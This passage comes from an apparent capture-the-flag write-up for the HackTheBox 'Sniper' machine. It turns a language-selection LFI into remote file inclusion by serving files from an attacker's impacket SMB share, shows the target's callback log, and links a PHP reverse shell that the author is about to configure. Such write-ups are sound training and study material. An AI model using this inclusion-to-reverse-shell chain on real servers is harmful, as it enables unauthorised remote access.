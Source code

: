 ### RFI (Remote file inclusion)

In the blog one there is a functionality which allows us to change the page language:

![](@assets/HackTheBox/Sniper/2.png)

After seeing it the first thing I though was LFI so I jumped into trying different system routes and payloads.

I find that simply by introducing the full path to a file i can see its contents:

![](@assets/HackTheBox/Sniper/3.png)

I first tried log poisoning but after not finding any log files I though about turning it into a RFI instead of an LFI by sharing an SMB folder.

~~~bash
❯ sudo smbserver.py ziox . -smb2support
[sudo] password for ziox: 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.151,49694)
[*] AUTHENTICATE_MESSAGE (\,SNIPER)
[*] User SNIPER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:ZIOX)
~~~

After accessing it I got a request from a device called `\SNIPER`, meaning that it worked.

As the server was interpreting PHP files I first shared the following file, in order to look if there were any disabled functions:

~~~php
<?php
    phpinfo();
?>
~~~

But there werent.

![](@assets/HackTheBox/Sniper/5.png)

So now i can upload a PHP reverse shell to gain access to the victim machine. For that purpose I will be using the following script: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

Here you only need to set this 4 variables and the arguments in the last lines when the function is called:
